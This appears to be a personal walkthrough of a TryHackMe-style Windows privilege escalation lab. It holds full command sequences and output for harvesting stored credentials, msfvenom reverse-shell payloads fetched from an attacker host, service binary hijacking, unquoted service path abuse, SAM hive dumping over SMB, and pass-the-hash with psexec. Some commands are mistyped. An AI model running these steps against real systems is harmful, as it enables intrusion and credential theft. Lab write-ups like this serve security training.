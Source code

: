 Looking at our powershell history. This is actually easier from cmd.exe rather than powershell so I spawned a cmd prompt from powershell. but it is possible from PS. To quote the page:

"Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. "

PS C:\Users\thm-unpriv> cmd.exe
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm-unpriv>
C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
**cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z**
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
cmd.exe


cmdkey /list

gives us:

Domain:interactive = WPRIVESC1\mike.katz
Type: Domain Password
User: WPRIVESC1\mike.katz

Now we can run a cmd prompt as mike.katz:
runas /savecred /user:mike.katz cmd.exe 

This spawns another cmd.exe this time running as mike.katz and we can navigate to the C:\Users\mike.katz\Desktop and read the flag with
type flag.txt 

(type works a little like cat on Linux boxes)

I did Q2 out of order, but I don't suppose it matters.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config>type web.config | findstr connectionString 

gives us the db_admin password:
connectionString="Server=thm-db.local;Database=thm-sekure;User ID=*db_admin*;Password=*098n0x35skjD3*" name="THM-DB"

Don't put credentials in code!

Q4 - This one needs to be done from the original thm-unpriv account:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

leads us to the PuTTY session for thom.smith and password
CoolPass2021

The next page covers some other 'easy wins'

To exploit scheduled tasks you can list them 
schtasks

adding nc64.exe with your attacker IP and port to the vulntask's schtask.bat file and starting a nc -lvnp PORT on your attacking box will result in a reverse shell:

C:\Windows\system32>whoami                                                                                                                                    │
whoami                                                                                                                                                        │
wprivesc1\taskusr1   

Navigate to Desktop and read the flag:
              │
THM{TASK_COMPLETED} 

Insecure permissions on scheduler (service executable)

Here we find that the user can overwrite a service executable.

use msfvenom on attacking machine (set LHOST and LPORT to attack machine)

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4445 -f exe-service -o rev-svc.exe

start a server
python3 -m http.Server 8000

and listener

nc -lvnp 4445

On remote machine:

wget:/Attack_IP:4445/rev-svc.exe -O rev-svc.exe

then move the old WService.exe and replace with rev-svc.exe (as shown on the page)

you can stop and start the service without waiting for restart. 

(sc is a shortcut so add .exe)

sc.exe stop windowsschduler
sc.exe start windowsscheduler

and you should get a reverse shell on your attack machine where you can whoami, navigate to that user's Desktop and get the flag!

C:\Users\svcusr1\Desktop>type flag.txt
THM{AT_YOUR_SERVICE}

The next vulnerability exploits how windows treats service names with spaces in. disk searcher enterprise will first try to run disk, then disk searcher, then disk searcher enterprise etc. So if we can sneak an executable in called disk.exe it will be by the service instead of disk searcher etc.

make a payload on attacking machine:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4446 -f exe-service -o rev-sv2.exe 
nc -lvnp 4446

whisk it over to the remote machine and save in C:\MyPrograms\ as Disk.exe
grant permissions
icacls C:\MyPrograms\Disk.exe /grant Everyone:F

stop and then start the "disk sorter enterprise" service.

Remember to use sc.exe if using Powershell as 'sc' is mapped as a shortcut to Set-Content commandlet

Get flag from user desktop:
type C:\Users\svcusr2\Desktop\flag.txt 

THM{QUOTES_EVERYWHERE}

# Insecure Sys Config
The payloads are all the same, it's just good practice to type out that msfvenom string a lot so here's the next one:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.14.120 LPORT=4447 -f exe-service -o rev-svc3.exe   
start netcat:
nc -lvnp 4447

wget from remote and put in thm-unpriv folder:
wget http://10.11.14.120:8000/rev-svc3.exe -O C:\Users\thm-unpriv\rev-svc3.exe

icacls C:\Users\thm-unpriv\rev-scv3.exe /grant Everyone:F

then configure the vulnerable (editable) THMService to start it.
sc.exe config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
(sc.exe as I'm in powershell)

 sc.exe stop THMService (it hasn't been started)
  sc.exe start THMService
  and viola...nt authoritaaa!!!

nt authority\system:

get flag!
THM{INSECURE_SVC_CONFIG}

# Final challenge

For the final challenge we will need to use impacket it may be easier to use the attackbox for this task. Or install impacket. This is an optional install on Kali-linux:

sudo apt install python3-impacket

this doesn't automatically install python scripts into /opt as in the examples. So... maybe use find? I did. Not sure what's going on there.

On remote machine start a PS or CMD session as admin and use given creds.

run:
reg save hklm\system C:\Users\THMBackup\system.hive 
reg save hklm\system C:\Users\THMBackup\sam.hive 

On attacking system set up an smb share with impacket tools.

first create a folder called share then start your smb server:
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share.

copy C:\Users\THMBackup\sam.hive \\ATTACK_IP\public\
copy C:\Users\THMBackup\sam.hive \\ATTACK_IP\public\

on remote system copy files

on attack system:
Use impacket to extract credentials from sam.hive and system.hive

The location of your impacket python files may vary...not sure why the ones in /doc/ worked for me ???

──(vagrant㉿kali)-[~/winPrivEsc/share]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 

──(vagrant㉿kali)-[~/winPrivEsc/share]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.33.254                                                                                                                                                    130 ⨯
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.33.254.....
[*] Found writable share ADMIN$
[*] Uploading file rBzYacJq.exe
[*] Opening SVCManager on 10.10.33.254.....
[*] Creating service WCNB on 10.10.33.254.....
[*] Starting service WCNB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}



